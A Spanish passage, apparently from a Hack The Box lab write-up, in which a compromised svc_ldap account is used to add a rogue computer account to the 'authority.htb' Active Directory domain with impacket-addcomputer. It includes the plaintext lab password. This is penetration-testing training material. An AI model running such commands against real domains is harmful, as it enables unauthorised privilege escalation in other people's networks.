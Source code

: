 ![20240309101818.png](20240309101818.png)


Además encontraremos todo lo que tenemos permiso dentro del dominio

![20240309101857.png](20240309101857.png)

Ya que tenemos permisos para crear una nueva computadora, lo que haremos sera crearnos una con `impacket-addcomputer`

```python
❯ impacket-addcomputer -computer-name seven_pc -computer-pass seven  'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222
```
